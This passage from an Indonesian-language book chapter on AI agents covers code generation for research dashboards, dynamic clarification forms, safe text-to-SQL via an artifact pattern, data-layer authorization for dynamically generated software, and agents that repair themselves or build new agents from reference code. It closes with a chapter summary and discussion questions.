Ambil pengalaman penulis sendiri saat menulis makalah penelitian sebagai contoh: untuk setiap proyek penelitian, penulis memelihara situs web interaktif[^ch5-4]. Situs ini berfungsi baik sebagai deliverable akhir maupun dokumen hidup sepanjang proses penelitian—penulis meminta Agent terus memperbaruinya seiring berjalannya eksperimen. Situs web ini memiliki setidaknya tiga tujuan. Pertama, **experiment data traceability**: data spesifik untuk setiap eksperimen, prompt yang digunakan, dan respons mentah LLM semuanya dapat diperiksa satu per satu di situs tersebut; memaparkan semuanya secara terbuka memudahkan identifikasi masalah dalam konstruksi data, format, dan distribusi, serta memperhatikan bias sistematis dalam respons LLM atau penilaian judge. Kedua, **training metric monitoring**: situs web menampilkan kurva pelatihan secara langsung, memudahkan pemantauan **internal health metrics** model dan menentukan apakah proses pelatihan tetap sehat. Istilah ini meminjam dari dunia medis: ini adalah sinyal internal apakah proses pelatihannya sendiri sehat—training dan validation loss, gradient norm, learning rate, perplexity model saat memancarkan token (ukuran "kepercayaan dirinya" pada output-nya sendiri), dan dalam reinforcement learning, reward, KL divergence, dan policy entropy. Mereka berbeda dari metrik hasil akhir seperti akurasi tugas: sama seperti hasil pembacaan fisiologis dalam pemeriksaan kesehatan yang berbeda dari performa luar seseorang, internal health metrics sering memunculkan masalah—loss yang tidak konvergen, exploding gradients, training collapse—jauh lebih awal. Ketiga, **demonstrating system operation**: visualisasi mengungkapkan bagaimana keseluruhan sistem bekerja, memungkinkan pembaca memahami struktur sistem yang dibangun AI secara sekilas.

[^ch5-4]: Situs web proyek penelitian penulis dapat ditemukan di https://01.me/research/, di mana setiap proyek memiliki situs web interaktif yang terus diperbarui.

**Mengklarifikasi User Intent.**

Ketika requirements ambigu atau tidak lengkap, Agent harus mengajukan pertanyaan klarifikasi untuk mengumpulkan informasi yang hilang. Produk seperti OpenAI Deep Research umumnya melakukan ini melalui tanya jawab berbasis teks, tetapi pendekatan tersebut memiliki batasan yang jelas: ia tidak efisien karena setiap pertanyaan memakan satu giliran dialog (dialogue turn), sehingga sepuluh poin klarifikasi bisa membutuhkan sepuluh putaran; dan ia buruk dalam mengekspresikan dependensi antar pertanyaan—misalnya, tujuan perjalanan membatasi moda transportasi yang tersedia—yang mana teks biasa kesulitan untuk menyajikannya dengan jelas.

Melalui code generation, Agent dapat membuat antarmuka interaktif yang terstruktur untuk menggantikan tanya jawab berbasis teks. Gambar 5-8 mengilustrasikan proses pembuatan formulir secara dinamis, menunjukkan bagaimana Agent mengubah pertanyaan klarifikasi menjadi antarmuka terstruktur yang dapat diisi sekaligus. Agent menghasilkan formulir HTML yang berisi berbagai input controls—kotak teks untuk informasi terbuka, menu tarik-turun untuk opsi standar, kotak centang untuk pilihan ganda, dan date pickers untuk input waktu yang disederhanakan. Versi yang lebih canggih dapat menggunakan JavaScript untuk membuat formulir bertingkat yang menampilkan atau menyembunyikan pertanyaan lanjutan dan memperbarui opsi yang tersedia sebagai respons terhadap pilihan pengguna. Pengguna mengisi seluruh formulir sekaligus, menghilangkan beberapa putaran dialog, dan dapat dengan jelas melihat semua informasi yang diperlukan serta hubungan logis antar pertanyaan.


> **Eksperimen 5-10 ★★: Sistem Klarifikasi Maksud dengan Formulir Dinamis**
>
> **Tujuan Eksperimen**: Memverifikasi kemampuan Agent untuk mengklarifikasi maksud pengguna dengan menghasilkan formulir HTML secara dinamis.
>
> **Technical Approach**: Agent menganalisis permintaan pengguna, mengidentifikasi poin klarifikasi, dan menghasilkan kode formulir dengan cascading logic. Frontend me-render kode tersebut, pengguna mengirimkannya sekaligus, dan Agent mem-parsing data JSON untuk melanjutkan tugas.
>
> **Kriteria Penerimaan**: Pengguna memasukkan "Saya ingin memesan penerbangan ke Beijing." Agent menghasilkan formulir dengan kolom-kolom berikut: kota keberangkatan (input teks), tanggal keberangkatan (pemilih tanggal), jenis perjalanan (tombol radio untuk sekali jalan atau pulang pergi), dan tanggal kembali (hanya ditampilkan saat pulang pergi dipilih). Pengguna mengirimkan semua informasi sekaligus.
>

**Menghasilkan SQL Queries.**

Query database adalah skenario di mana code generation dapat secara signifikan meningkatkan pengalaman interaksi. Akses database tradisional bergantung pada alat GUI atau SQL yang ditulis tangan; yang pertama merepotkan untuk dioperasikan, dan yang kedua mengharuskan pengguna memiliki pengetahuan khusus. Sebuah Agent dapat menerjemahkan bahasa alami ke SQL, tetapi ada pilihan desain utama: haruskah Agent mengeksekusi query dan mendeskripsikan hasilnya dalam natural-language, atau haruskah ia menghasilkan SQL sebagai artefak bagi sistem untuk mengeksekusi dan frontend untuk menampilkannya?

Pendekatan pertama tampak lebih "cerdas" tetapi sangat tidak efisien—query terhadap tabel besar dapat mengembalikan ribuan baris. Menyuruh LLM membaca semua itu dan mendeskripsikannya dalam bentuk prosa akan menghabiskan token dan waktu, dan lebih buruknya lagi, LLM terkenal rentan terhadap kesalahan saat "mentranskripsi" data. Pendekatan yang lebih baik adalah **Artifact pattern**. Gambar 5-9 menunjukkan alur kerja dari SQL Query Agent: daripada membaca data itu sendiri, Agent menghasilkan SQL query dan meneruskannya ke sistem sebagai **executable artifact** yang berdiri sendiri. Sistem mengeksekusi query tersebut terhadap database dan me-render hasilnya dalam tabel untuk pengguna. Oleh karena itu, data mengalir langsung dari database ke antarmuka tanpa melewati LLM; LLM menulis query tetapi tidak pernah harus membaca dan menyatakan kembali ribuan baris. Pendekatan ini lebih cepat dan lebih akurat.

SQL dan kode visualisasi yang dihasilkan tidak boleh dieksekusi secara langsung. Lapisan eksekusi harus menggunakan kredensial basis data read-only, mengurai SQL, hanya mengizinkan pernyataan `SELECT` yang disetujui, serta menolak DDL, DML, dan kueri multi-pernyataan. Nilai dari pengguna harus diikat sebagai parameter di sisi server, dengan batas waktu kueri, jumlah baris yang dikembalikan, tabel yang dapat diakses, dan rentang tanggal. Kode visualisasi harus berjalan dalam sandbox yang diisolasi dari jaringan dan sistem berkas serta hanya menghasilkan format hasil yang disetujui. Pola Artifact memperpendek jalur data, tetapi tidak menggantikan pemeriksaan otorisasi atau isolasi eksekusi.


Lebih jauh lagi, Agent dapat menghasilkan dua artefak yang membentuk pipeline: sebuah SQL query dan kode visualisasi, seperti kode untuk diagram batang. Frontend meneruskan hasil SQL secara langsung ke kode visualisasi. LLM menghasilkan kode tetapi tidak berpartisipasi dalam jalur data—inilah esensi dari code generation sebagai antarmuka.

> **Eksperimen 5-11 ★★: Agent ERP dengan Interaksi Bahasa Alami**
>
> Perangkat lunak ERP (Enterprise Resource Planning) adalah sistem kritis untuk bisnis, biasanya menggunakan antarmuka GUI di mana operasi yang kompleks memerlukan beberapa klik mouse. Sebuah AI Agent dapat menerjemahkan permintaan natural-language pengguna menjadi SQL queries, memungkinkan akses database otomatis.
>
> Requirements: Siapkan database PostgreSQL yang berisi dua tabel: (1) Tabel Employee, yang mencakup employee ID, nama, departemen, level, tanggal perekrutan, tanggal pengunduran diri (NULL berarti saat ini masih dipekerjakan); (2) Tabel Salary, yang mencakup employee ID, tanggal bayaran, gaji (satu catatan per bulan). Agent secara otomatis menjawab:
>
> 1. Berapa rata-rata masa kerja (tenure) karyawan?
> 2. Berapa banyak karyawan aktif di masing-masing departemen?
> 3. Departemen mana yang memiliki rata-rata level karyawan tertinggi?
> 4. Berapa banyak karyawan baru yang bergabung di setiap departemen tahun ini dan tahun lalu?
> 5. Berapa rata-rata gaji untuk departemen A dari Maret dua tahun lalu hingga Mei tahun lalu?
> 6. Departemen mana yang memiliki rata-rata gaji lebih tinggi tahun lalu, A atau B?
> 7. Berapa rata-rata gaji untuk karyawan di masing-masing level tahun ini?
> 8. Berapa rata-rata gaji di bulan terakhir untuk karyawan dengan masa kerja kurang dari satu tahun, satu hingga dua tahun, dan dua hingga tiga tahun?
> 9. Siapa 10 karyawan yang memiliki kenaikan gaji terbesar dari tahun lalu ke tahun ini?
> 10. Apakah ada kasus tunggakan upah (karyawan yang dipekerjakan selama bulan tertentu tetapi tidak memiliki catatan gaji pada bulan tersebut)?
>

**Menghasilkan Perangkat Lunak Secara Dinamis.**

Aplikasi puncak dari code generation adalah membiarkan Agent membuat perangkat lunak sepenuhnya secara dinamis, dari awal. "Imagine with Claude" dari Anthropic menandai batas ini: pengguna membuat permintaan, Claude menghasilkan antarmuka frontend dan logika interaksi secara real time, pengguna berinteraksi dengan perangkat lunak yang dihasilkan, dan Claude memodifikasi kode untuk menghasilkan antarmuka baru yang menunjukkan hasilnya. Pengguna melihat aplikasi terwujud dari nol dan terus berkembang.

Namun, fully dynamic generation membutuhkan biaya besar dan lambat—lebih cocok untuk demonstrasi tentang apa yang mungkin terjadi daripada untuk production use. Pendekatan yang lebih pragmatis adalah **menyesuaikan framework yang sudah ada**. Model "semi-custom" ini mempertahankan stabilitas perangkat lunak dasar sembari mengekspos aspek-aspek tertentu ke kendali pengguna. Pengguna dapat mengatakan "jadikan tombolnya biru," "tambahkan menu pintasan ke sidebar," atau "beralih ke font yang lebih mudah dibaca"; Agent memperbarui frontend code, dan HMR (Hot Module Replacement—yang memperbarui modul terdampak tanpa reload seluruh halaman dan biasanya mempertahankan state aplikasi) menerapkan perubahannya seketika. Sebuah produk one-size-fits-all menjadi pengalaman yang disesuaikan untuk setiap pengguna.

> **Eksperimen 5-12 ★★: Sistem Kustomisasi Antarmuka Percakapan**
>
> **Tujuan Eksperimen**: Memungkinkan pengguna menyesuaikan antarmuka perangkat lunak secara instan melalui dialog bahasa alami, lalu mengevaluasi apakah pembuatan kode dengan hot reload dapat memberikan pengalaman yang dipersonalisasi secara efektif.
>
> **Technical Approach**: Bangun aplikasi chatbot dasar (frontend React dan backend FastAPI), dan jalankan kedua komponen dalam development mode dengan hot reload diaktifkan (React HMR dan FastAPI reload). Pengguna mengusulkan persyaratan penyesuaian UI (warna, font, tata letak, posisi komponen, dll.) selama percakapan. Agent secara otonom memodifikasi kode. Mekanisme hot reload secara otomatis mendeteksi perubahan file, frontend melakukan kompilasi ulang dan refresh, dan pengguna melihat perubahan antarmuka secara real time. Sistem mendukung beberapa putaran iterative customization.

Perangkat lunak dinamis mengubah asumsi keamanan tradisional seiring dengan fleksibilitasnya. Dahulu, kode bisnis aplikasi dikembangkan, ditinjau, diuji, dan diterapkan, lalu relatif stabil; karena itu pemeriksaan otorisasi biasanya berada di lapisan aplikasi. Ketika Agent dapat membuat atau menulis ulang antarmuka, alur kerja, bahkan kode akses data kapan saja, lapisan tersebut tidak lagi stabil. Kode baru dapat melewatkan pemeriksaan yang rumit, membuka field yang sebelumnya tersembunyi, atau melewati pemeriksaan yang ada melalui jalur pemanggilan lain. Baik penyebabnya kesalahan generasi biasa maupun kode berbahaya akibat prompt injection, hasilnya sama: batas izin yang seharusnya dijaga kode bisnis dapat rusak secara diam-diam.

Tujuan keamanan perangkat lunak dinamis bukanlah “memastikan AI menulis setiap pemeriksaan otorisasi dengan benar”. Tujuannya adalah **membuat batasan izin tetap mustahil dilewati meskipun AI menghasilkan kode yang salah**. Jika pemeriksaan otorisasi berada di dalam logika bisnis yang dibuat secara dinamis, pemeriksaan itu berbagi domain kepercayaan dengan kode yang seharusnya dibatasi. Prompt, pengujian, dan tinjauan kode memang mengurangi tingkat kesalahan, tetapi tidak dapat mencakup semua jalur eksekusi yang mungkin diperkenalkan oleh generasi berikutnya dan bukan batas keamanan terakhir.

Arsitektur yang lebih kuat **memindahkan batas kepercayaan ke lapisan data**. Kode aplikasi yang dibuat secara dinamis menangani presentasi, alur kerja, dan orkestrasi bisnis, sedangkan mekanisme stabil yang ditinjau manusia menegakkan aturan tentang siapa yang boleh melakukan apa terhadap data mana. Keamanan tingkat baris pada basis data dapat membatasi pengguna pada record tenant-nya sendiri; constraint dan validator menolak state ilegal; view, stored procedure, atau layanan akses data terkontrol hanya mengekspos operasi yang disetujui. Setiap pembacaan dan penulisan juga harus membawa **konteks akses** yang diikat runtime tepercaya, berisi identitas pengguna, tenant, peran, atau Agent. Kode yang dihasilkan hanya menerima identitas terbatas ini: ia tidak dapat memalsukannya atau memperoleh kredensial basis data istimewa untuk melewati aturan. Walaupun pemeriksaan di level aplikasi dihilangkan, lapisan data tetap menolak operasi yang tidak berwenang.

Memindahkan otorisasi ke bawah bukan berarti menaruh seluruh logika bisnis di basis data. Lapisan aplikasi tetap dapat melakukan pemeriksaan awal untuk memberikan umpan balik cepat, tetapi lapisan data harus mempertahankan kewenangan keputusan akhir. Aturan yang sama dapat memperbaiki pengalaman di atas dan memberi jaminan di bawah. Semua jalur akses data harus melewati lapisan data tepercaya; kode yang dihasilkan tidak boleh terhubung langsung untuk mengitarinya. Hasilnya, lapisan atas dapat terus berubah, sedangkan batas izin yang tidak dapat dinegosiasikan tetap berada di lapisan yang tidak dibuat ulang pada setiap permintaan. Inilah lapis data pada kerangka tiga lapis di Bab 1—lapis yang paling sulit dilewati.

> **Eksperimen 5-13 ★★★: Objek Data Tertanam-Izin untuk Perangkat Lunak Dinamis**
>
> **Tujuan Eksperimen**: Bangun object store yang memungkinkan kode aplikasi dibuat atau ditulis ulang secara dinamis, namun otorisasi dan integritas data tetap ditegakkan di lapisan data. Verifikasi bahwa kode yang dihasilkan tidak dapat menembus batas stabil dengan melewati transisi state, menulis nilai di luar rentang, atau membaca lintas tenant.
>
> **Pendekatan Teknis**: Menyediakan middleware object store Python di atas PostgreSQL. Tipe data mendeklarasikan aturan izin, konteks akses, validator, relasi objek, dan reaction; setiap pembacaan atau penulisan objek melewati secara berurutan pipeline izin dan validasi, persistensi, pemeriksaan integritas referensial, dan seterusnya.
>
> **Kriteria Penerimaan**: Pembaruan pipeline perekrutan yang valid berhasil; lapisan data menolak lompatan state kandidat, gaji di luar rentang posisi, dan pembacaan lintas tenant.

### Kode yang Membuat Kode: Bootstrapping Agent

Bagian-bagian sebelumnya telah mengikuti code generation di satu domain demi domain lainnya—dari penalaran matematis hingga pembuatan dokumen hingga kustomisasi antarmuka. Dorong kemampuan ini hingga batasnya dan muncul pertanyaan alami: dapatkah Agent menggunakan code generation untuk membuat Agent lain?

Pertama, division of labor bagian ini dengan Bab 9 harus diperjelas. Bagian ini membahas bagaimana Coding Agent menggunakan kode untuk **memperbaiki dan membuat Agent dari jenisnya sendiri**—self-repair, self-replication, dan on-demand generation. Fokusnya adalah pada kemampuan code generation dan system-construction capability, sehingga proses ini disebut **bootstrapping**. Bab 9 tidak menjelaskan kembali bagaimana menulis kode ini; melainkan berfokus pada bagaimana pengalaman produksi yang dievaluasi memicu self-modification: memilih pengetahuan, instruksi, program, atau parameter sebagai target pembaruan; menghasilkan kandidat versi dari versi stabil; dan mengendalikan risiko melalui regression testing, canary releases, dan rollback. Kedua bab ini bersinggungan di “modifying code”, tetapi menjawab pertanyaan yang berbeda.


**Agent Self-Repair: OpenClaw Doctor.**

Prasyarat krusial untuk Agent bootstrapping adalah kemampuan self-repair. Perintah `doctor` di OpenClaw mewujudkan kemampuan ini—ia dapat secara otomatis mendeteksi tiga jenis masalah:

- **Anomali konfigurasi**: Token OAuth yang kedaluwarsa, format konfigurasi lama, konflik port
- **Masalah state**: File *lock* sesi yang usang, dependensi *plugin* yang hilang
- **Masalah kesehatan layanan**: Gateway tidak berjalan, *image sandbox* hilang

Ini kemudian secara otomatis menyelesaikannya melalui strategi perbaikan berlapis: perbaikan aman (normalisasi konfigurasi, pembersihan file *lock*) dieksekusi secara otomatis; operasi berisiko (*restart* layanan, menimpa konfigurasi secara paksa) memerlukan konfirmasi pengguna.

Mari kita tidak melebih-lebihkannya: masalah berfrekuensi tinggi seperti token kedaluwarsa, file *lock* yang usang, dan konflik port memiliki aturan deteksi yang jelas dan tindakan perbaikan yang tetap, dan `doctor` **mengatasinya terlebih dahulu dengan pengecekan deterministik**, mirip seperti skrip operasi tradisional. Kemampuan Agent menjadi bermakna pada lapisan kedua: untuk masalah yang lebih sulit di luar aturan tersebut, `doctor` menggunakan LLM untuk menganalisis log kesalahan, menginterpretasikan file konfigurasi, menyimpulkan akar penyebab, dan menghasilkan rencana perbaikan yang terarah. Pengecekan deterministik menyelesaikan masalah umum dengan andal, sementara LLM menangani masalah-masalah yang jarang terjadi (*long tail*); bersama-sama, kedua lapisan ini memungkinkan `doctor --fix` untuk menyelesaikan sebagian besar masalah *gateway* umum secara otomatis. Apa yang menjadikan ini pola "Agent memperbaiki Agent" adalah bahwa Agent tidak bekerja pada sistem eksternal melainkan pada lingkungan *runtime*-nya sendiri, mengangkat perbaikan mandiri dari fungsi *system-adapter* menjadi infrastruktur *bootstrapping* inti.

**Teknik Utama untuk Membuat Agent Menulis Agent.**

Menciptakan Agent berkualitas tinggi jauh lebih sulit daripada menghasilkan kode aplikasi biasa, karena ini menuntut pemahaman mendalam tentang pola arsitektur Agent, praktik terbaik, dan jebakan umum. Tanpa keahlian domain tersebut, bahkan model pembuatan kode yang paling kuat pun menghasilkan Agent dengan kelemahan arsitektur yang serius. Kelemahan umum meliputi:

1. **Manajemen konteks ad hoc**: Gagal menggunakan format konteks standar yang dibahas pada Bab 2, memasukkan riwayat (*trajectories*) sebagai teks biasa ke dalam konteks, mengabaikan pengoptimalan KV Cache dari pesan terstruktur, dan memperkenalkan *bug* kondisi batas dalam *loop* pemanggilan *tool* (*tool-call loops*)
2. **Desain tool non-standar**: Deskripsi yang tidak jelas, tidak adanya instruksi batasan penggunaan dan daftar negatif, serta parameter yang tidak memiliki contoh konkret
3. **Pilihan teknologi usang**: Kecenderungan untuk menggunakan model dan API yang paling umum tetapi sudah ketinggalan zaman dari data pelatihan. Solusi: Pertahankan Knowledge Base SOTA atau lengkapi Agent dengan kemampuan pencarian
4. **Keterputusan dari ekosistem eksternal**: Menggunakan API yang sudah tidak didukung (*deprecated*), pustaka yang tidak terawat, atau pola yang cacat

Jalur paling efektif untuk memecahkan masalah ini bukanlah mendaftar semua aturan secara mendalam di dalam *prompt*, melainkan **menyediakan implementasi Agent berkualitas tinggi sebagai contoh referensi**, memandu Agent pembuat kode untuk memodifikasinya alih-alih memulai dari awal.

Keuntungan dari pembuatan berbasis contoh sangat jelas: kode contoh itu sendiri membawa praktik terbaik. Agent yang mengadaptasi implementasi tervalidasi akan melakukan hal yang benar lebih sering daripada yang memulai dari nol, karena implementasi tersebut mempertahankan pilihan arsitektur yang baik tanpa mengharuskan setiap aturan dijelaskan secara rinci di dalam *prompt*.

Ketika Agent menerima tugas untuk mengembangkan Agent baru, ia pertama-tama harus menyalin kodenya sendiri (atau implementasi tervalidasi dan berkualitas tinggi lainnya) dan kemudian melakukan modifikasi yang terarah: menyesuaikan System Prompt agar sesuai dengan peran baru, mengganti atau menambahkan *tools* yang sesuai dengan fungsi baru, mengubah logika bisnis sembari mempertahankan kerangka arsitektur. Pola "replikasi mandiri dengan modifikasi adaptif" ini memastikan Agent baru mewarisi keunggulan teknis inti sambil memungkinkan diferensiasi dalam dimensi tertentu—sangat mirip dengan replikasi gen yang disertai mutasi dalam biologi.

> **Eksperimen 5-13 ★★★: Mengembangkan Agent yang Dapat Membuat Agent**
>
> **Tujuan Eksperimen**: Membangun Coding Agent dengan kemampuan *metaprogramming*—kemampuan untuk menulis program yang menghasilkan atau memodifikasi program lain—sehingga dapat secara otomatis menciptakan sistem Agent baru dari persyaratan pengguna sambil mematuhi praktik terbaik.
>
> **Pendekatan Teknis**: Berikan Coding Agent implementasi Agent berkualitas tinggi sebagai contoh referensi (proyek `ch5/coding-agent` itu sendiri dapat digunakan). Ketika ditugaskan untuk membuat Agent baru, Agent pertama-tama menyalin kode contoh ini dan kemudian melakukan modifikasi terarah berdasarkan kebutuhan spesifik pengguna.
>
> **Kriteria Penerimaan**: Agent yang dihasilkan berjalan dengan sukses dan menyelesaikan tugas-tugas dasar. Verifikasi bahwa ia menggunakan format pesan standar dan protokol pemanggilan *tool*, model dan API yang direkomendasikan saat ini, serta manajemen konteks dan *state* yang benar di berbagai giliran percakapan. Bandingkan pembuatan dari awal dengan modifikasi berbasis contoh, dan pastikan bahwa yang terakhir meningkatkan kualitas dan efisiensi.
>
>
> 
>
>

*Bootstrapping* Agent adalah penerapan puncak dari pembuatan kode—Agent yang dapat menciptakan Agent mencapai replikasi mandiri dari kecerdasan. Dengan demikian, kita telah menelusuri alur lengkap bab ini: dari dasar-dasar Coding Agent, melalui berbagai penggunaan pembuatan kode, hingga *bootstrapping*.

## Ringkasan Bab

Bab ini telah mendebatkan satu hal di sepanjang penjelasannya: kode bukan hanya sekadar alat untuk menulis program—kode adalah bahasa dari pemikiran yang diformalkan dan ekspresi presisi dari sebuah Agent.

Bagian rekayasa Harness mencapai satu kesimpulan sentral: Coding Agent menjadi matang bukan karena model pembuatan kode yang sangat kuat, melainkan karena infrastruktur rekayasa perangkat lunak yang terakumulasi selama beberapa dekade—rangkaian pengujian, sistem tipe, kontrol versi—secara alami membentuk Harness yang kuat. Kesimpulan tersebut layak dibawa ke skenario Agent lainnya. Bagian tentang kegagalan dan pemulihan kesalahan (*error recovery*) menawarkan sisi lain dari tema yang sama: keandalan Agent tidak ditentukan oleh apakah model tersebut membuat kesalahan, melainkan oleh apakah setiap kelas kegagalan memiliki jalur deteksi, pemulihan, dan penghentian yang sesuai.

Bagian kedua mendemonstrasikan nilai luas dari pembuatan kode di luar pemrograman, yang sesuai dengan enam dimensi pada teks utama:

- **Thinking Tool**: Memanfaatkan komputasi simbolik dan penyelesaian kendala untuk mengimbangi kekurangan pemikiran probabilistik
- **Business Rule Constraints**: Mengekspresikan aturan bisnis secara tidak ambigu dan memberikan jaring pengaman deterministik untuk operasi yang tidak dapat dibatalkan, di mana nilai jaminan tersebut jauh melebihi biaya implementasinya
- **Multimedia Generation**: Membuat konten multimodal seperti PPT dan video melalui mekanisme *Proposer-Reviewer*
- **System Adapter**: Secara otomatis mengikuti evolusi format untuk mencapai otomatisasi penuh pada penguraian log dan diagnosis masalah
- **Generative UI**: Membuat formulir, visualisasi, dan bahkan aplikasi lengkap yang dapat disesuaikan secara dinamis, melepaskan diri dari batasan teks biasa
- **Agent Bootstrapping**: Menggunakan kode untuk memperbaiki Agent yang ada dan membuat yang baru, yang pada akhirnya memungkinkan sebuah Agent untuk membuat Agent lain

Nilai kode bagi sebuah Agent bermuara pada hal ini: ia sekaligus merupakan sarana untuk menyelesaikan tugas dan mekanisme untuk mengakumulasi pengetahuan, membuat alat, serta meningkatkan dirinya sendiri—sebuah "meta-kapabilitas" sejati.

Sampai di sini, kita telah menggabungkan konteks, pengetahuan, alat, dan kemampuan coding menjadi arsitektur dasar Agent serbaguna; pembuatan kode adalah meta-kapabilitas yang paling umum di antaranya. Namun, lima bab pertama masih mengasumsikan bahwa Agent dan dunia bertindak secara bergiliran. Bab 6 melengkapi bagian terakhir dari “Membangun Agent” dengan memperluas ruang observasi dan ruang aksi ke peristiwa asinkron, suara, layar, dan dunia fisik; setelah langkah ini selesai, Bab 7 beralih ke evaluasi dan peningkatan berkelanjutan.

## Pertanyaan Pemikiran

1. ★★ Pembuatan kode disebut sebagai “meta-kapabilitas” dari sebuah Agent. Tetapi eksekusi kode menimbulkan risiko keamanan—kode yang dihasilkan Agent mungkin mengandung kerentanan, memasuki *infinite loop*, atau menghabiskan sumber daya. *Sandboxing* dapat memitigasi beberapa risiko ini, tetapi ia juga membatasi apa yang dapat dilakukan kode tersebut, misalnya dengan menolak akses ke jaringan atau sistem file. Bagaimana keseimbangan optimal antara keamanan dan kemampuan dapat ditemukan?
2. ★★★ *Bootstrapping* Agent—sebuah Agent yang dapat membuat Agent lain—memungkinkan "reproduksi mandiri dari kecerdasan". Tetapi setiap iterasi *bootstrapping* mungkin memperkenalkan bias atau kesalahan baru. Akankah kesalahan ini terakumulasi di seluruh generasi? Bagaimana degradasi pada *bootstrapping* Agent dapat dicegah?
3. ★★ Ketika Agent pembuat kode menangani penguraian log, ia dapat secara otomatis mengikuti evolusi format. Tetapi jika perubahan format tersebut merupakan *bug* dan bukan modifikasi yang disengaja, adaptabilitas Agent itu malah mungkin menyembunyikan masalah tersebut. Bagaimana seharusnya Agent membedakan antara “perubahan yang memerlukan adaptasi” dan “anomali yang memerlukan pelaporan”?
4. ★★ Bab ini berulang kali menggunakan mekanisme *proposer-reviewer* dalam pembuatan PPT, pengeditan video, dan visualisasi log. Jika preferensi estetika Reviewer berbeda dari preferensi pengguna target—misalnya, jika Reviewer menganggap kepadatan informasi masuk akal tetapi pengguna merasanya terlalu penuh—*feedback loop* mungkin berpusat pada titik optimal lokal yang salah. Bagaimana umpan balik preferensi pengguna dapat dimasukkan ke dalam *loop* Reviewer?
5. ★★ Bab ini menunjukkan beberapa cara bagi Coding Agent untuk mengkonsolidasikan pengalaman yang diperoleh melalui eksekusi dan *debugging* kembali ke dalam basis kode—menulis file Knowledge Base, memperbarui dokumentasi arsitektur, memelihara file instruksi proyek, dan menyandikan urutan operasional sebagai kode. Jika pengalaman ini disaring lebih lanjut menjadi aturan dalam System Prompt, kumpulan aturan tersebut akan terus bertambah seiring berjalannya waktu. Bagaimana “pengumpulan sampah” (*garbage collection*) dapat dilakukan pada aturan yang terakumulasi untuk mengidentifikasi dan menghapus entri yang berlebihan atau ketinggalan zaman? Mengapa satu modifikasi kode yang berhasil belum merupakan evolusi berkelanjutan dalam arti Bab 9?
6. ★ “Tim yang ramah terhadap kerja jarak jauh sering kali juga ramah terhadap AI Agent.” Seberapa dekat tim atau organisasi Anda untuk menjadi “AI-ready” dalam hal dokumentasi pengetahuan? Apa hambatan terbesarnya?
7. ★★★ Simon Willison mengusulkan "Lethal Triad" (Tiga Serangkai Mematikan) untuk Agent—akses ke data privat, paparan terhadap konten yang tidak tepercaya, dan kemampuan komunikasi eksternal. Bab ini menambahkan elemen keempat: memori persisten. Bagaimana Anda akan mendesain strategi keamanan untuk lingkungan produksi yang harus menangani keempat hal tersebut secara bersamaan?
8. ★★ Pola Artifact memungkinkan sebuah Agent untuk menghasilkan SQL atau kode visualisasi untuk dieksekusi langsung oleh *frontend*, melewati kebutuhan LLM untuk memproses data bervolume besar. Apa saja keuntungan dan kerugian dari pembagian kerja ini—“Agent menghasilkan kode, sistem mengeksekusi kode”—dibandingkan dengan pola tradisional di mana Agent memberikan jawabannya secara langsung? Selain itu, SQL yang dihasilkan dapat melakukan operasi destruktif, dan HTML yang dihasilkan mungkin mengandung kerentanan. Bagaimana keamanan sistem dapat dijamin?
9. ★★ Menyandikan aturan bisnis sebagai validasi terhadap kebenaran dasar (*ground truth*) basis data, sambil menggunakan desain parameter untuk memandu model guna memeriksa kondisi kebijakan sebelum melakukan pemanggilan, pada dasarnya menggunakan struktur kode untuk membatasi perilaku Agent. Apa kelebihan dan keterbatasan dari pola "kode sebagai aturan" ini dibandingkan dengan aturan yang diekspresikan dalam bahasa alami?
